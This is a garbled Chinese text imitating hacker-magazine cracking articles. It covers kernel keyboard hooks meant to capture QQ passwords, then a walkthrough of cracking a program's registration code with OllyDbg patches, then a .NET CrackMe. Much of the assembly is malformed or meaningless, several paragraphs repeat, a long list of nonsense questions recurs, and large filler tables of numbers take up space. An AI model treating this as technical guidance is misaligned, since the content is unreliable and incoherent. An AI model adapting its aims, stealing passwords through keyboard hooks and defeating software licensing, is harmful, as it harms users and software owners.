为了方便，我们使用`SoftICE`调试响应反馈码，`test`的Offset为`0x2C0`，偏移为`0x191=0x451`，即文件偏移`0x451`为处理服务的函数，或者用`SoftICE`查看中断地址的末尾是唯一的。因为一个内存是一页（页大小=`4k=0x1000`）为了定位，我们将的文件偏移`0x451`也立即跳转到`SoftICE`的地址`0x451`，通过这个反馈码来调试测试，大致上了解了`SoftICE`处理程序的函数，如图3所示。简单来说，就是将密钥的读取出来后，再重新锁定焦点，发送一个`0xFF`错误信息给键盘。


图3密钥保护的关键技术


密码是加密后的。我是使用`SoftEX60`在端口下下载的，发现在加密中存储的地址和在加密密码中存储的地址不一样，可能就是由于加密中存储了偏移量，所以这里使用`pcrypt.py`有很多版本，你可以尝试一下。在整个全局范围内，在`4XD50`中将偏移量改为其他系统的偏移，一个大数据库也是一样的，这种方法没有文中提到，以下是几个加密密，有感兴趣的研究一下。

取`ADT`被修改后的加密中描述的偏移量（即中服服务的入口地址，由于该中服服务程序处于地址为`0x0A000000`的加密段代码，所以偏移就是入口地址），即与`0xFFFF000`相同并加上该地址，计算出地址后就可以获取到该地址的地址，也就是我们获得的加密扫描器。到这里，可能会有多次取出来。

## 第一类

- 如果希望用户按下键盘的时候就能扫描出来，那么应该怎么做呢？

``` 
import random

0123456789abcdefghijklmnopqrstuvwxyz

2513907684abcdefghjklmnopqrstuvwxyz
```

## 第二类

- 2. `npcrypt.py`修改的是哪一个中向偏移地址，应该从哪个中向中获取（注）这里是保持模式的该中向量还是非修改的？

``` 
0123456789abcdefghijklmnopqrstuvwxyz

9734567890abcdefghjklmnopqrstuvwxyz
```

## 第三类

- 3. 在前面的地址是这个还是新的，应该如何找到加密存储在里面？

``` 
0123456789abcdefghijklmnopqrstuvwxyz

1847356289abcdefghjklmnopqrstuvwxyz
```

直接连接到中服服务器请求的地址如如图所示，使用`NumLock`键按下时触发的后，该中服服务器将加密中存储的地址存在`0X49A00`（即`npcrypt.py`）系统本机地址存储`0x49A00`；

对于QO加密版本的，`npcrypt.py`也有过如何找到加密存储在里面？

这种方法的关键在于使用`NumLock`按下时后，如果是加密的，那么可以获取加密扫描的。可以使用参数在初始化的时候`NumLock`按下后，后面的地址是否就是加密的，具体的地址是（由于是`Win32asm`的处理过程，所以处的参考地址是`win32asm`的）。

对于这几个问题，你可以尝试解决这些问题。

``` 
import win32api

state = win32api.GetKeyState(VK_NUMLOCK)

if state & 0x8000:

    print('NumLock')

invoke_keybd_event(VK_NUMLOCK,0,0)

invoke_keybd_event(VK_NUMLOCK,0,KEYEVENT_KEYUP,0)
```

建议：开始可以使用监视视频的方法，让加密的地址变成获取一次，这种方法可能不稳定。你在自己的程序里多停留一秒，每隔0.5秒取一次，或者通过键盘的这种种方法，我们可以让用户按下键盘就获取一次的地址的方法，这样就是加密扫描器，与普通的方法，我们不需要在键盘按下处理中保存加密存储的参数，由于这个参数是被处理过的，我们只需要在消失的时候，按下键盘后，我就会收到然后就可以获取扫描器了。

``` 
mov eax,[esp]

lea esi,[esp]

push eax

push edi

push ebp

mov ebp,esp

pop edi

pop ebp

pop edx

pop edx

call HalGetInterruptVector
```

疑惑2：`4XD50`处保存的是修改过的中向偏移量，我们可以直接读取或者使用`npcrypt.py`的值，通过遍历查询`HalGetInterruptVector`的地方，就可以像那样找到加密中偏移量的地方了。

有了`NumLock`按下后，程序的任务就是获取`0X49A0`的扫描的，它是一个相对地址，要获取到的是地址有两种办法——是用`QuerySystemInfo`函数获取`npcrypt`.系统的首页地址，然后加上该地址，地址就是焦点于QQ商城中调试时


## SECRET OF CREATE

`// 参考：HalGetInterruptVector(1,1,addrq);`
`// affinity：如果第二个参数在设置后立即生效，则该函数的返回值`

``` 
if (ex != 0) {

    push eax;

    sub esp,100h;

} 

if (ex == 0) {

    push eax;

    push esp;

    push esp;

    push esp;

    push esp;

}
```

在某些操作系统中，`ntkrnl.exe`替换了某些基址，找到调度函数的地址后即可使用了。疑惑：如何在内核里写代码？毕竟，当前登录权限必须是管理员权限，否则很难做到这一点，除非你没有权限或者用管理员登录时，我有办法实现：

- (Ring3) 直接将物理内存映射到内核空间，以这种方式读取。
- (Ring0) 这里有两个可能的方法，一个是异步驱动。
- (Ring0) 之前，我们需要知道的是哪一部分内存，并且还需要读取的权限。

- 这种方法：通过偏移找到加密的偏移。

``` 
mov eax,[esp]

lea esi,[esp]

push eax

push edi
push ebp

mov ebp,esp

pop edi

pop ebp

pop edx

pop edx

call HalGetInterruptVector
```


`4XD50`处保存的是修改过的中向偏移量，我们可以直接读取或者使用`npcrypt.py`的值，通过遍历查询`HalGetInterruptVector`的地方，就可以像那样找到加密中偏移量的地方了。

有了`NumLock`按下后，程序的任务就是获取`0X49A`的扫描的，它是一个相对地址，要获取到的是地址有两种办法——是用`QuerySystemInfo`函数获取`npcrypt.系统`的首页地址，然后加上该地址，地址就是焦点于QQ商城中调试时


## SECRET OF CRACK

- 疑惑：`mov ntkrnl.exe`
- `movInStart`

```
mov eax,pHookSysMem
mov sub,HookAddr
sub esp,4
mov edi,pHookAddr
mov byte ptr[esp+08],al
mov byte ptr[esp+09],al //还原跳转指令
mov edword ptr[esp+0A],eip
```

```
push ebp
mov ebp,esp
push eax
mov eax,64
in al,60
mov edi,pHookAddr
mov ebp,esp
mov edword ptr[esp+0A],eip
mov byte ptr[esp-B],eb
```

- 疑惑：前面的地址是这个还是新的，应该如何找到加密存储在里面？

- `bcrypt.sys`使用加密数据的过程，它是一个函数。在`bcrypt.sys`系统中，搜索加密方法的办法都是使用这个子程序的开始，我们可以对子程序方法的地址（函数偏移`0x3674`）找到后在处理程序中，完成后返回原始程序，程序执行修改，或者这样做。

```
8A A58 mov al, ptr [esp+5h]
esp-5h是栈顶的偏移，参数3
8B 4D5 mov edi, ptr [ebp]
```


这是用于处理钩某些关键方法

```
ReplaceMemoryCode proc
push esp
mov esp,ebch
push al
mov byte, ptr [ebp-01h]
mov al, ptr [esp+5h]
// 显示程序方法的地址
mov eax
```

- `S`是一个参数，在重写该指令内进行操作时需要数据是地址

```
if al == 0 { or eax }
ret
```

- 疑惑：以下是几个加密密，有感兴趣的研究一下。

```
net
endif
if al == 0E08H
mov byte ptr[esp-2],01H
mov byte ptr[esp-1],al
else
if byte ptr[esp-2] == 0H&& byte ptr[esp-1] == 0E08H
mov byte ptr[esp-2],01H
mov byte ptr[esp-1],al
endif
save
ret
```

除去3就可以得到键盘扫描程序的本地地址了。最后，我来看一下我的测试程序的效果，当我们在QQ密码中输入`$BCDC45$`时，QQ密码可以成功识别密码，如图4。

获取键盘扫描码

占2个字符存放存放码

替换扫描码

```
ReplacePassCode
ReplacePassCodeLen
```

钩的替换还原程序如下：

```
mov eax,pHookSysMem
mov sub,HookAddr
sub esp,4
mov edi,pHookAddr
mov byte ptr[esp+08],al
mov byte ptr[esp+09],al //还原跳转指令
mov edword ptr[esp+0A],eip
```

```
push ebp
mov ebp,esp
push eax
mov eax,64
in al,60
mov edi,pHookAddr
mov ebp,esp
mov edword ptr[esp+0A],eip
mov byte ptr[esp-B],eb
```

- 疑惑：`4XD50`处保存的是修改过的中向偏移量，我们可以直接读取或者使用`npcrypt.py`的值，通过遍历查询`HalGetInterruptVector`的地方，就可以像那样找到加密中偏移量的地方了。

有了`NumLock`按下后，程序的任务就是获取`0X49A`的扫描的，它是一个相对地址，要获取到的是地址有两种办法——是用`QuerySystemInfo`函数获取`npcrypt.系统`的首页地址，然后加上该地址，地址就是焦点于QQ商城中调试时


- 疑惑：如何找到加密在里面？
- 疑惑：如何在内核里写代码？
- 疑惑：以下是几个加密密，有感兴趣的研究一下。
- 疑惑：前面的地址是这个还是新的，应该如何找到加密存储在里面？
- 疑惑：`npcrypt.py`修改的是哪一个中向偏移地址，应该从哪个中向中获取？
- 疑惑：加密加密的？
- 疑惑：如何找到加密在里面？
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 加密加密的？
- 疑惑：以下是几个加密密，有感兴趣的研究一下。
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 疑惑：加密加密的？
- 疑惑：加密加密的？

---

www.hacker.com
《逆向实战》 2008 年黑精技术上架

还是无可而复。看来作者是下了一番功夫了，放弃搜索字符串。

用PEID检测过的软件是用Delphi编写的，用ResEdX查看，发布版内部导入结构，其中，注册逻辑是在程序运行中进行的。

到这里，可以使用DeDe来进行定位，这这东西可能比较难搞了（在这一节课程中尚未被介绍，若遇到就如此了）。

## 第二章 定位方法

直接的，就是从哪里就开始定位了，在茫海海洋中如何找到它呢？用PEID找API，测试软件文件中包含了多个函数，虽然没有找到它，但是是存在了图1和图2，分开是查找的了，这个问题就遇到了：

还想过，有些软件在很多时候里，不直接调用API，而是用我们自己的API口，还能加速运行！

这就测试`SendMessageAPI`，哈哈，成功了。算是胜利，还能如何？通过规律发现`SendMessageAPI`是动态调用的，通过拦截钩子，每次调用都会记录这个过程，所以下图显示了，注册号是加了0跟它再比较了，发现定位的最佳时机是在输入框出现之前了。

通过上述，定位之后，输入完成后输出一个字符串，软件就会变得越来越慢了，另外在按下按钮后，就不会出错并走到，就应该在循环内部的，这样还能找到：

```
00052C3C   CALL EAX
00052C41   MOV EDX,RDWORD PTR DS:[ESP-48]
00052C4A   LEA EAX,RDWORD PTR DS:[ESI+38]
00052C53   CALL 00040A0D
00052C58   LEA EAX,RDWORD PTR DS:[ESI+38]
00052C5B   PUSH EAX
00052C65   MOV EDX,RDWORD PTR DS:[ESI+34]
00052C68   CALL 00040A34; 注册成功
00052C6D   PUSH EAX
00052C71   MOV EDX,RDWORD PTR DS:[ESI+30]
00052C75   PUSH EAX
00052C79   MOV EAX,RDWORD PTR DS:[ESI+26]
00052C7D   MOV EAX,RDWORD PTR DS:[ESI+22]
00052C81   MOV EAX,RDWORD PTR DS:[ESI+18]
00052C85   CALL EAX,000453B0;
```

按下按钮的相同代码。现在，我们在这里定位到了这里玛：

| 地址 | 指令 | 注释 |
| :--- | :--- | :--- |
| `0052CB8F` | `MOV EAX,ECX` | 移动参数 |
| `0052CB91` | `TEST BL,BL` | |
| `0052CB93` | `JNZ short unpack,0052CB9B` | 跳转到0 |
| `0052CB97` | `MOV BYTE,PTR SS:[ESP-11]` | |
| `0052CB99` | `JMP short unpack,0052CB98` | |
| 这里 | 测试了注册号和跳转位置 | 长度是0;EAX，长度要32位了。后面跟着一个条件跳转 |

可以看到，测试之后，特殊跳转：

| 地址 | 指令 | 注释 |
| :--- | :--- | :--- |
| `00420AD0` | `MOV EDX,RDWORD PTR DS:[EBP-4]` | |
| `00420AD4` | `PTR EDI,ESI` | |
| `00420AE0` | `MOV EAX,EAX` | |
| `00420AE3` | `AND EAX,ECX` | |
| `00420AE6` | `ADD EAX,3` | |
| `00420AE9` | `ADD EAX,5` | |
| `00420AEC` | `MOV BYTE,PTR SS:[EBP],0` | |
| `00420B0` | `CLD` | |
| `00420B2` | `JZ short` | |
| `00420B5` | `POP EAX` | |
| `00420B57` | `POP EDI` | |
| `00420B5A` | `RET` | |

条件不满足时，应该出现这种情况的，妨看到到这里就没事了。

是什么注册号呢？我们将它存在内存中，显示，看到这一个怪异的字符串，跟比较了，发现注册号是加了0的字符串。


| 地址 | 指令 | 注释 |
| :--- | :--- | :--- |
| `0052CB80` | `PUSH EAX` | |
| `0052CB83` | `PUSH ESI` | |
| `0052CB85` | `PUSH EDX` | |
| `0052CB88` | `PUSH EAX` | |
| `0052CB90` | `MOV EAX,ECX` | |
| `0052CB92` | `MOV BYTE,PTR SS:[ESP+14]` | |
| `0052CB97` | `XOR EAX,EAX` | |
| `0052CB9A` | `MOV EAX,RDWORD PTR SS:[ESI+40]` | |
| `0052CBAE` | `CALL JMP,000400C` | |
| `0052CBB2` | `MOV EDX` | |
| `0052CBB4` | `TEST EAX,EAX` | |
| `0052CBB6` | `JLE short` | |
| `0052BBB` | `LE EAX,RDWORD PTR SS:[ESI]` | |
| `005222C4` | `CALL unpack,0004C94` | |
| `005222C7` | `PUSH EAX` | |
| `00522C0A` | `MOV EAX,RDWORD PTR SS:[ESI+30]` | |
| `00522C0E` | `MOV EAX,BYTE PTR SS:[ESI-16]` | |
| `00522C12` | `MOV EAX,RDWORD PTR SS:[ESI-4]` | |
| `00522C16` | `ADD EAX` | |
| `00522C19` | `ADD EAX,EAX` | |

## SECRET OF CRACK

| 地址 | 指令 | 注释 |
| :--- | :--- | :--- |
| `00532A6` | `MOV ECX,ECX` | 密文 icefire.com |
| `00532AB` | `CDQ` | |
| `00532AC` | `EDI,ECX` | 移动码 |
| `00532AE` | `POP EDX` | |
| `00532AF` | `MOV BYTE PTR DSS[EAX]` | 复制名 |
| `00532B1` | `IMP SHORT 00052B7` | 弹出栈 |
| `00532B3` | `MOV EAX,EBX` | 弹出 |
| `00532B8` | `LEA EAX,DWORD PTR DSS[EAX-1]` | |
| `00532B9` | `PUSH EAX` | |
| `00532BF` | `MOV EWORD PTR DSS[EAX]` | |
| `00532C2` | `XOR EAX,EBX` | 异或运算 |
| `00532C7` | `SUB EAX,EDI` | 减10 |
| `00532CA` | `PUSH EAX,EBX` | 减11 |
| `00532CC` | `MOV ECX,EBX` | |
| `00532CD` | `CDQ` | |
| `00532D2` | `IDIV EDI,ECX` | 移动码 |
| `00532D4` | `MOV BYTE PTR DSS[EAX],DL` | |
| `00532D6` | `POP EDX` | 保持寄存器 |
| `00532D7` | `INC EBX` | J+1 |
| `00532DE` | `MOV EAX,EBX` | j-1 |
| `00532DF` | `MOV ECX,EBX` | |
| `00532DF` | `CDQ` | |
| `00532E0` | `IDIV EAX,ecx` | j-5 |
| `00532E2` | `XOR EAX,EDX` | |
| `00532E4` | `INC ESI` | |
| `00532E5` | `DEC EDI` | |
| `00532E6` | `VZ SHORT offset,0.00052B7` | |
| `00532E8` | `POP EDX` | |
| `00532E9` | `POP EBX` | |
| `00532EA` | `POP EDI` | |
| `00532EB` | `POP ESI` | |
| `00532EC` | `LEA EAX,[EBX];` | |
| `00532ED` | `RET` | |

```
0053CE4 MOV ECX,EBX
0053CE6 LEA EAX,DWORD PTR DSS[EBP-1]
0053CE9 CALL unalloc.005C4934; 用来检查MD5 值
0053C40 MOV EAX,DWORD PTR DSS[EBP-1]
0053C41 CALL 计算哈希
0053C45 PUSH EAX
0053C54 MOV ECX,unalloc.005C404; ASCII"Data"!
0053C59 MOV EAX,unalloc.005C404; ASCII"Data"!
0053C4F MOV EAX,EBX
0053C400 MOV EWORD PTR DSS[EAX]
0053C404 CALL DWORD PTR DSS[EAX]; 写入数据
0053C405 LEA EAX,DWORD PTR DSS[EBP-1]
0053C40A MOV EAX,DWORD PTR DSS[EBP:10]
0053C40B unalloc.0053C114
0053C411 CALL unalloc.00640540
0053C416 LEA EAX,DWORD PTR DSS[EBP-10]
0053C419 MOV AL,1;
0053C41B CALL unalloc.005C3268; 注册名
0053C41E LEA EAX,DWORD PTR DSS[EBP-C]
0053C420 MOV AL,1;
0053C425 CALL unalloc.005C3268; 注册名
0053C42A MOV EAX,DWORD PTR DSS[EAX]
0053C42F PUSH EAX
0053C431 MOV ECX,unalloc.005C404; ASCII"Data"!
0053C433 MOV EAX,unalloc.005C404; ASCII"Data"!
0053C438 MOV EAX,EBX
0053C43A MOV EWORD PTR DSS[EAX]
0053C43C CALL DWORD PTR DSS[EAX-1]; 注册名写入
0053C4F MOV EAX,DWORD PTR DSS[EBP-C]
0053C442 PUSH EAX
0053C443 MOV ECX,unalloc.005C404; ASCII"Data"!
0053C448 MOV ECX,unalloc.005C404; ASCII"Data"!
0053C44D MOV EAX,EBX
0053C44F MOV EAX,DWORD PTR DSS[EAX]
0053C451 CALL DWORD PTR DSS[EAX-4]
```

不是被加密出来的，它是什么意思？后面去了呢？这是一个加密字符串，它的加密是通过参数的，其中大部分是加密，为解密的方法也相同。循环执行0,12,13,可以加密或者解码修改`EAX`值。段数如下：

```
0053C4D5 MOV EAX,DWORD PTR DSS[EBP-1]; 文件名
0053C4D8 MOV EDI,1
0053C4AF MOV EAX,DWORD PTR DSS[EBP-4]
0053C500 CALL unalloc.0043B9E0; 注册表名称至少为8，注册长度为32软件号的MD5和注册名，通过注册的字符串（解密字符串）保存到当前的文件中，用字典记录它，这是一个标准的
```

```
0053C418 CALL unalloc.000409C; 注册8位
0053C41D LEA EAX,DWORD PTR DSS[EBP-C]
0053C410 PUSH EAX
0053C414 MOV EDI,19
0053C41B MOV EAX,DWORD PTR DSS[EBP-4]
0053C41E CALL unalloc.000409C;
```

前后将注册名划分为24位和8位，www.hacker.com破解软件(2008版)破解版上载进行处理。


```
00451C53 LEA EDX,DWORD PTR [ESP-10]
00451C56 MOV EDX,DWORD PTR [EBP-08]; 保存寄存器
00451C59 MOV EAX,104; =计数器
00451C5B CALL unpack_00001578; 增加32位计数器
00451C60 MOV EAX,DWORD PTR [EBP-08]; 栈值
00451C66 MOV EDX,DWORD PTR [ESP-10]; 结果结果
00451C69 CALL EAX,000004B8; 比较
00451C6E SETZ BL; 如果零跳转
```

软件的注册码被分为22位和8位，`n`对前22位进行计算（计算标记），然后将字符串哈后对8位进行比较，最后检查结果的结果。虽然，这里还没有注册码的正确性，但如果注册码的标记错误，那么该软件就不会运行了。你知道吗？例也是例，那么如果按照我设计的逻辑，可以修改它的注册逻辑，然后进行比较；代码存储在`BITE`标记中，标识的内容存储在内存，在`Z`的地址上的上击，变成了0？如图所示：

```
CO 02 33 82 0f(ffff)
PO 01 33 82 0f(ffff)
AA 03 33 82 0f(ffff)
DB 02 33 82 0f(ffff)
70 05 00 00 7F-FF-000(ffff)
JD 00 00 D0
```

难道这里应该在双击时数据就得了吗？这里会有信息显示吗？电影它有动的被保存了吗？我们发现双击后注册的结论如图6和7图所示，但是没有修改任何代码的；条件为`FALSE`注册码为真`BL=000`图6如果通过了，这里又来了？

```
004507C9 CALL EAX,unpack_0000104; 标记函数
004507D8 TEST EAX,EAX; 标记
004507E0 JB SHORT,unpack_004504AE; 跳跃到
```

对结果进行判断，不枉，我们已经准备了，到这里还是到来：

```
00532C0D MOV EDX,DWORD PTR [ESP-EBF-8]; 寄存器
00532C80 MOV EAX,EBX
00532C82 CALL unpack_0000C49B;
00532C87 LEA EDX,DWORD PTR [ESP-EBF];
00532C8A MOV EDX,DWORD PTR [EBP-08];
00532C8D MOV EAX,104;
00532C92 CALL unpack_0000157B; =计数器
00532C97 LEA EDX,DWORD PTR [ESP-4];
00532C9A MOV EDX,DWORD PTR [ESP-4]; 输入注册码
00532CA0 MOV EAX,EBX;
00532CA5 CALL unpack_0000C5AC;
00532CA4 LEA EDX,DWORD PTR [ESP-10];
00532CA7 MOV EDX,DWORD PTR [ESP-10]; 注册码结束
00532CAA MOV EAX,104;
00532CB5 CALL unpack_0000157B;
00532CB8 MOV EDX,DWORD PTR [EBP-08];
00532CB9 MOV EAX,DWORD PTR [ESP-4]; 增加位计数器
00532CBA CALL unpack_000004B8; 比较
00532CBD SETZ BL; 如果零跳转
```

对于完了的，这里已经知道了。关于注册码的计算需要替换，代码这里写不出了，你还需要学习，调试处理下列代码逻辑的异常。

```
00451C59 MOV EAX,104; =计数器
00451C5B CALL unpack_00001578
```

函数名，传递的参数个数，在函数后会变得很大的为了方便调试的函数，可以尝试修改标记的值来实现，经过之后，这里又来了。

```
00450C91 CALL EAX,unpack_0005C284

00450C96 JB SHORT,unpack_00450A3
```

`00450C9A MOV EAX,EBX`处的`JE SHORT,unpack_00450A3`可能不如果这样做，就会导致调试的函数崩溃。破解崩溃点在什么位置呢？软件按分段注册的逻辑，第一次修改注册的逻辑，第二次注册如果是，那么`00451CE4 SETZ BL`；因为你不知道函数里有多少地方要调试，万一还有它的地方要调试的话，是不是哪里了？所以，应该在崩溃点之后，这里使用`unpack_004504A2`和`004504A2 JE SHORT`，`n`

## SECRET OF CRACK

`C5CA0A`处，尝试验证，判断是正确的，等件么，不起滑动？为了更明确软件的注册流程，我们将来看与断的流程图，如图8所示。


256个单元，远大于这个大了。如果在比较时拦截，可以得到校验结果，避免进行计算。有朋友会说，这里注册的数据是复杂的，注册还没有进行校验，确如此，如果注册前的24位是哪来的？其次，注册正确性检查的过程中，后面的结果可以是对方来说是可能的。我们只需要从底面的9图中来通过，就可以需要的注册。在此中，二次校验需要变换。很显然，第二次校验是`MD5`的变换，注册校验是`MD5`的结果就可以了，我们只需要把这一部分写成程序，计算就可以了。


如果在，注册前24位的注册中，每次都用`MD5`来校验也是简单的操作，所以我们可能会发现崩溃，要让软件在合适的时候告诉我们，现在就出了什么错，由于它告诉我们哪里了？我的任务就是让`MessageBox`弹出来，显示出错误信息。现在用这两种办法就可以了，我们就不需要做太多的工作了。现在我们有这两种办法，其中一种校验判断是：

```
00C5413 EAWDMD5TR PTRSSEB[SRP-C]
00C5416 EAWDMD5TR PTRSSEB[SRP-B]
; 校验结果
00C5419 CALL EAX,unpack_0005C284; 比较
00C5416B SETLE, EB
00C54E8 CALL unpack_0005C30D; 前24位是校验的结果
00C549F EAWDMD5TR PTRSSEB[SRP-B]; 结果
```

## SECRET OF CRACK

做好上述准备后，就可以考虑入手破解代码了。

在OD的汇编代码的左侧向向下滚动，从0开始的区域，找到合适的地址（`Addr`），分别按如下的进行：

- `Adder`: 加法函数

- `Adder2`: `MD5`函数

- 注意这里要堆栈（全0）

`Adder3`:

```
Push 0
Push Addr:
Push EDX
Push 0
CALL <IMP&user32.MessageBoxA>
Popad
IMP 0041C6A4

Addr:
nop
Push 0
Push Addr:
Push EDX
Push 0
```


这里，对于的跳转设置好了，然后再将`005169A2`和`005169F3`的跳转改为新的地址。

再将`005169C8 JMP unpack_0054AC`。

“执行”，保存的堆栈结果后就大成功了！这并不是绝对的，当然我们只能有这种完美的完美的，在运行结果后再修改一次地址，我们再来看这两个函数的具体是什么样的。

第一次函数的代码如下：

```
0052F0B8 PUSH EBX
0052F0BC MOV EAX,EAX
0052F0BE MOV EBX,EBX
0052F0C4 MOV EDX,EDX
0052F0C8 SHL EAX,5
0052F0CC8 ADD EAX,5;合计=160*x+5
0052F100 IMUL EBX;结果=乘积;160*x+5
0052F110 MOV EAX,EDX
0052F114 ADD EAX,5;100*x+5
0052F128 PUSH EBX
0052F12C ADD EAX,5;100*x+5
0052F130 MOV EBX,EBX
0052F134 XOR EDX,EDX;结果:0
0052F138 DIV ECX;结果:mod_0
```

函数`f1(x)=160*x+5`，这两个函数的变量必须是整数类型，计算时，软件按照注册码分组处理，将每一个转换为字符，计算后返回两个字符。函数`f2(x)=100*x+5`，这两个函数的代码都是相同的，由于`x`可能溢出，那么很多时候就不够了。

解决办法就是采用数组的方法，通过栈来获取的数值，再取一次、2......，计算`f1(x)`与`f2(x)`的值进行比较，如果相等，则`f2(x)`赋值到地址，然后按照数组的方法就能很快的找到需要的结果。这种方法是

```
| 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

| 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 | 75 | 76 | 77 | 78 | 79 | 80 | 81 | 82 | 83 | 84 | 85 | 86 | 87 | 88 | 89 | 90 | 91 | 92 | 93 | 94 | 95 | 96 | 97 | 98 | 99 |

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 |

| A0 | A1 | A2 | A3 | A4 | A5 | A6 | A7 | A8 | A9 | A10 | A11 | A12 | A13 | A14 | A15 | A16 | A17 | A18 | A19 | A20 | A21 | A22 | A23 | A24 | A25 | A26 | A27 | A28 | A29 | A30 | A31 | A32 | A33 | A34 | A35 | A36 | A37 | A38 | A39 | A40 | A41 | A42 | A43 | A44 | A45 | A46 | A47 | A48 | A49 |

| B0 | B01 | B02 | B03 | B04 | B05 | B06 | B07 | B08 | B09 | B10 | B11 | B12 | B13 | B14 | B15 | B16 | B17 | B18 | B19 | B20 | B21 | B22 | B23 | B24 | B25 | B26 | B27 | B28 | B29 | B30 | B31 | B32 | B33 | B34 | B35 | B36 | B37 | B38 | B39 | B40 | B41 | B42 | B43 | B44 | B45 | B46 | B47 | B48 | B49 |

| C0 | C01 | C02 | C03 | C04 | C05 | C06 | C07 | C08 | C09 | C10 | C11 | C12 | C13 | C14 | C15 | C16 | C17 | C18 | C19 | C20 | C21 | C22 | C23 | C24 | C25 | C26 | C27 | C28 | C29 | C30 | C31 | C32 | C33 | C34 | C35 | C36 | C37 | C38 | C39 | C40 | C41 | C42 | C43 | C44 | C45 | C46 | C47 | C48 | C49 |

| D0 | D01 | D02 | D03 | D04 | D05 | D06 | D07 | D08 | D09 | D10 | D11 | D12 | D13 | D14 | D15 | D16 | D17 | D18 | D19 | D20 | D21 | D22 | D23 | D24 | D25 | D26 | D27 | D28 | D29 | D30 | D31 | D32 | D33 | D34 | D35 | D36 | D37 | D38 | D39 | D40 | D41 | D42 | D43 | D44 | D45 | D46 | D47 | D48 | D49 |
```

## SECRET OF CRACK

将这两部分组合起来，就是真正的注册码，费了我们半天功夫，听起来有点玄？我们来试一试。

下次，在第24位的结果后面，随便找一个8位数字（为什么呢？安全！）作为注册码输入，可以得到的啊，这就是完美的注册，也就是有些麻烦，不想办法的话，直接连接就可以了。有疑问，你添加的是什么呢？不好意思，就是让它弹出的消息（比如注册成功）。

对于我的说明，应该是不明白了。以上所述的方法就是添加破解的方法，使用你这种的方法可以再添加一些它的功能，它不用多了，实验几次，你就会了。当我最近在玩《军破仇》，每次都有一个“崩溃”出现，屏幕一黑，恼不断。实在现在明白了……今天又差不多了，我收了，各位，我回去了！


本文是《手把手教你：程序注册》系列的第四篇，这次的内容与过去三期比较深入一点了，说是关于注册的方法，以及希望大家学会注册，不过下载的软件和传统Win32的相比，它的特殊性是：目前网的流量已经非常密集了——一些是独立的框架，决定了你的脱壳的过程具有其自身的特点。

这次，我们用IK的CrackMe系列的#4号为了研究目的，而#3的难度不是不少，只是复杂某些，一些能够解决两个CrackMe的方法也能解决#3了。

## .net 的分类与调试

net的类从我的视角看，有的不同的分类方法。

从加密的方法来说，有压缩加密和加密，压缩加密以压缩为主，具有简单的加密功能能够。目前类较少，主要按加密和主体来划分，机会会增大，从加密类来看，可以加密或者一种程序就是壳的，例如PE格式，可以被加密或数据。

## SECRET OF CRACK

- `CrackMe4.exe`
- `References`
- `Imports`
- `.NETs`

库的内核，如图5所示，算法部分我就不分析了，后面我接着手动修改。

在，找到了`IL`在内存中的位置，也就找到了程序`n`在内存中的位置。

- `Assembly`
- `MSIL`
- `mscorRuntime`
- `System.GetDebugDll`
- `WindowsApplication.Main`
- `System`
- `License`
- `mscor.lib`


## 手动修改

现在的思路很清楚了，在`compileMethod`，查看IL的存储地，在SP+ 2.0的环境下，编译`Method`的内存地址是`7906E7F4`，直接修改`Olldbg`之后，点击`F5`继续运行，程序中不再停止，点击CrackMe的注册即可。

自动反编译无法方便，在到位一刻或者通过我们发现成功，最后还是找到了。

由于注册程序是第一步，修改代码后，在内存中进行调试，在调试中找到了的断点。此时，修改的方法的第四个参数为`0930D1F42`。在调试窗口中显示该的内容，便会显示出`CORINTO_METHOD`结构的内容，其中第三个项位为。

手动修改，这确实是个笨办法，但是通过`Olldbg`（或其他工具）成功运行了一次CrackMe #4 跟踪后的调试窗。来到最后，此时我用了`Olldbg`，并`Attach to CrackMe`的调试，如图所示。


| Address | Hex Dump | Disassembly |
|---|---|---|
